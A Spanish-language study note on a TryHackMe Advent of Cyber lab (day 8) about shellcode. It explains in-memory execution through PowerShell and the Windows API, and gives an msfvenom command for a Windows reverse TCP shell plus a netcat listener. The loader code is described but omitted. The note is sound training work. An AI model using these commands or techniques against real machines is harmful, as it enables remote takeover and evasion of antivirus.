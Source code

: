```yaml
---
{"dg-publish":true,"permalink":"/Ciberseguridad/Prácticas/TryHackMe/Advent of Cyber día 8/"}
---
```


[[Ciberseguridad/Prácticas/TryHackMe/Advent of Cyber día 7\|Advent of Cyber día 7]]

Objetivos:
- Fundamentos de shellcode
- Generar shellcodes para hacer reverse shells
- Ejecutar shellcode con powershell
Herramientas:
- PowerShell
- Programación
- Msfvenom

---

# Shellcode
Lo primero es entender algunos conceptos, ya que shellcode es un concepto un poco más avanzado.

Shellcode es un trozo de código usado por actores maliciosos durante exploits, como lo ataques de buffer overflow donde se inyectan comandos a un sistema vulnerable, lo que lleva a la ejecución arbitraria de comandos o darle el control de una máquina. Usualmente se escribe en Assembly y se entrega a través de diversas técnicas según la vulnerabilidad.

Powershell es un lenguaje de scripting y CLI en Windows para automatizar y manejar configuraciones. Le permite a un usuario interactuar con los componentes del sistema y es ampliamente usado por administradores. Sin embargo se suele usar por atacantes como una herramienta post-explotación porque tiene acceso profundo a los recursos del sistema y puede correr scripts directamente en memoria, evadiendo algunos mecanismos de detección.

Windows defender es una utilidad de seguridad de Windows que previene el lanzamiento de scripts maliciosos escaneando el código mientras corre. Las formas de evadirlo comunes incluyen la ofuscación de scripts y la inyección reflectiva, donde el código se carga en memoria.

Windows API le permite a los programas interactuar con el sistema operativo, dándoles acceso a recursos como la memoria y las redes. Es el puente entre la aplicación y el SO para manejar la memoria. Algunas funciones comunes que usan los atacantes son `VirtualAlloc`, `CreateThread`, `WaitForSingleObject`.

Acceder a WAPIa través de la reflección de powershell es una técnica avanzada que usa interacción dinámica. Permite al atacante llamar funciones de WAPI diréctamente cuando se ejecutan, esto permite manipular procesos de bajo nivel.

Reverse Shell es un tipo de conexión en la que el objetivo inicia la conexión hacia tu máquina.

---

# msfvenom

Para crear el reverse shell, utilizaremos una herramienta llamada `msfvenom`.
Ejecutamos el siguiente comando en la termina:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=IPLOCAL LPORT=1111 -f powershell`
![](https://i.imgur.com/xDV3Er6.png)
- `-p windows/x64/shell_reverse_tcp`:
	- `-p` especifica que queremos un reverse shell para una máquina windows
- `LHOST=IPLOCAL`:
	- Le indica a qué IP se debe conectar de vuelta
- `LPORT=1111`:
	- El puerto que estará escuchando en tu máquina para el reverse shell. Puede ser cualquiera pero el "escucha" (listener) debe ser el mismo.
- `-f powershell`:
	- formato de salida.
- `hexadecimal`
	- la instrucción

Ahora para que esto funcione simplemente simularemos que logramos acceder a una máquina y vamos a ejecutar el código.
Se nos provee de un código en C# porque siendo sincero, esto es un poco complejo para un novato como yo.

---

# Shellcode

```C#
Aquí iba el código provisto por TryHackMe pero windows defender no me deja hacerlo
```
![](https://i.imgur.com/dn16GCX.png)

A grandes rasgos el código hacía lo siguiente:
- Define clases a través del atributo `DllImport` para cargar funciones específicas del kernel32
	- `VirtualAlloc`: atribuye memoria en el espacio del proceso, básicamente reserva espacio
	- `CreateThread`: crea un nuevo hilo en el proceso. Ejecutará el shellcode de la memoria
	- `WaitForsingleObject`: pausa la ejecución hasta que un hilo específico termine su tarea, de esta forma aseguramos su ejecución.
- Se agregan estas clases a powershell usando `Add-Type`.

- Luego, lo asigna en una variable, un byte array. Aquí reemplazamos con el hexadecimal que obtuvimos de msfvenom.
- `VirtualAlloc` asigna un bloque de memoria donde se va a guardar el shellcode:
	- `0` para la dirección en memoria, osea que windows decide dónde será
	- `$size`: para el tamaño, determinado por el largo del shellcode
	- `0x3000`: el tipo de asignación, le dice a windows que reserve y guarde en memoria
	- `0x40`: para protección de memoria, la memoria es de lectura y ejecutable.
- `Marshal.Copy` copia el shellcode del array a la memoria.
- Luego de que se guardó en memoria, se llama `CreateThread`.

Ahora, en nuestro kali ejecutamos el comando `nc -nvlp 1111` para crear un puerto de escucha y esperar una conexión.

En la máquina víctima, corremos todo el código C# que mencionamos y en nuestra máquina de ataque aparece el siguiente mensaje
![](https://i.imgur.com/LgcpoJ5.png)

---

# Bandera

Para obtenerla, debemos realizar el mismo proceso pero conectarnos al puerto 4444, por lo tanto ejecutamos un nuevo msfvenom pero cambiando el puerto, ejecutamos el reverse shell, esperamos un rato y la bandera aparecerá.

Hemos completado el día 8
![](https://i.imgur.com/QCuve3R.png)

Ahora toca el día [[Ciberseguridad/Prácticas/TryHackMe/Advent of Cyber día 9\|Advent of Cyber día 9]].
